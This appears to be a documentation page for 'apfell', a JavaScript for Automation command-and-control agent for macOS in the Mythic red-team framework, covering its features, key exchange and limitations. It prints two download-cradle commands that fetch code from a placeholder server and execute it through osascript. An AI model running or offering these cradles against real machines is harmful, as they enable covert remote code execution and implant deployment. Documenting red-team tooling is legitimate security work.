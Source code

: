 +++
title = "apfell"
chapter = false
weight = 5
+++

![logo](/agents/apfell/apfell.svg?width=200px)
## Summary

Apfell is a JavaScript for Automation (JXA) agent for macOS. 

### Highlighted Agent Features
- Similar to a PowerShell script, JXA execution goes through either a trusted, Apple signed binary (`osascript`) or through any program that imports `OSAKit`. Because JXA is an interpreted language (rather than a compiled one), it requires certain permissions (like JIT exceptions) when dealing with Apple's Notarization.
- JXA has access to almost all ObjectiveC APIs through the ObjC bridge. If at all possible, `apfell` uses API calls instead of command-line execution.
- There are multiple download cradle options:
```Bash
1. osascript -l JavaScript -e "eval(ObjC.unwrap( $.NSString.alloc.initWithDataEncoding( $.NSData.dataWithContentsOfURL( $.NSURL.URLWithString('http://serverIPhere/filename')), $.NSUTF8StringEncoding)));"
2. curl http://serverIPHere/filename | osascript -l JavaScript &
```
- The agent uses Objective C API calls to do a full encrypted key exchange with the Mythic server with a combination of AES256 and RSA.


### Important Notes
The entire agent is single threaded due to an ObjectiveC / JXA bridge limitation that I have been unable to figure out. Be careful to not issue shell commands that require user input because you will lose your agent.

The agent cannot connect to self-signed certificates due to a limitation in overriding the NSURL connection settings for cert validation within JXA. 

## Authors
@its_a_feature_


### Special Thanks to These Contributors
- @xorrior
